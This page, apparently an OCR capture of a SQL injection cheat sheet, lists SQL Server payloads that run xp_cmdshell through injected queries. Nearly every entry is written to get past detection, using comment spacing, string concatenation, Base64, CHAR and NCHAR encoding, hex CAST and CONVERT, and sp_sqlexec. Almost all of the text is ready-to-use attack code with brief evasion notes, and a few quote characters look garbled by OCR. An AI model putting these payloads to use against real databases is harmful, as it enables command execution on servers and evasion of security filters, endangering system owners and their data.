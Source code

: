 * Using comments to avoid spaces. Note: This works with all versions of SQL Server.

```comments
    ‘;exec/**/xp_cmdshell/**/’dir’;–
```

* Using concatenation to avoid xp_cmdshell detection.

```concatenation
‘;Declare @cmd as varchar(3000);Set @cmd = ‘x’+’p’+’_’+’c’+’m’+’d’+’s’+’h’+’e’+’l’+’l’+’/**/’+””+’d’+’i’+’r’+””;exec(@cmd);–
```

* Using Base64 encoding to avoid xp_cmdshell detection.

```base64
‘;DECLARE @data varchar(max), @XmlData xml;SET @data = ‘ZXhlYyBtYXN0ZXIuLnhwX2NtZHNoZWxsICdkaXIn’;SET @XmlData = CAST(‘‘ + @data + ‘‘ as xml);SET @data = CONVERT(varchar(max), @XmlData.value(‘(data)[1]’, ‘varbinary(max)’));exec (@data);–
```

* Using char function encoding to avoid xp_cmdshell detection. Note: Encoding of characters can be done with the SELECT ASCII(‘T’) query.

```char
Declare @cmd as varchar(3000);Set @cmd =(CHAR(101)+CHAR(120)+CHAR(101)+CHAR(99)+CHAR(32)+CHAR(109)+CHAR(97)+CHAR(115)+CHAR(116)+CHAR(101)+CHAR(114)+CHAR(46)+CHAR(46)+CHAR(120)+CHAR(112)+CHAR(95)+CHAR(99)+CHAR(109)+CHAR(100)+CHAR(115)+CHAR(104)+CHAR(101)+CHAR(108)+CHAR(108)+CHAR(32)+CHAR(39)+CHAR(100)+CHAR(105)+CHAR(114)+CHAR(39)+CHAR(59));EXEC(@cmd);–
```

* Using Unicode nchar function encoding to avoid xp_cmdshell detection. Note: Unicode character encoding can be done with the SELECT UNICODE(‘a’); query.

```unicode
Declare @cmd as nvarchar(3000);Set @cmd =(nchar(101)+nchar(120)+nchar(101)+nchar(99)+nchar(32)+nchar(109)+nchar(97)+nchar(115)+nchar(116)+nchar(101)+nchar(114)+nchar(46)+nchar(46)+nchar(120)+nchar(112)+nchar(95)+nchar(99)+nchar(109)+nchar(100)+nchar(115)+nchar(104)+nchar(101)+nchar(108)+nchar(108)+nchar(32)+nchar(39)+nchar(100)+nchar(105)+nchar(114)+nchar(39)+nchar(59));EXEC(@cmd);–
```

* Using binary encoded ascii, and the CAST function to avoid xp_cmdshell detection. Note: Binary encoding can be done with the SELECT CAST(‘query’ as binary); query.

```ex
‘;Declare @cmd as varchar(3000);Set @cmd = Ncast(0x78705F636D647368656C6C202764697227 as varchar(3000));exec(@cmd);–
```

* Using binary encoded ascii, and the CONVERT function to avoid xp_cmdshell and CAST detection. Note: Binary encoding can be done with the SELECT CONVERT (binary,’query’ ); query.

```ex
‘;Declare @cmd as varchar(3000);Set @cmd = convert(varchar(0),0x78705F636D647368656C6C202764697227);exec(@cmd);–
```

* Using sp_sqlexec to avoid EXEC() detection

```ex
‘;Declare @cmd as varchar(3000);Set @cmd = convert(varchar(0),0x78705F636D647368656C6C202764697227);exec sp_sqlexec @cmd;–
```
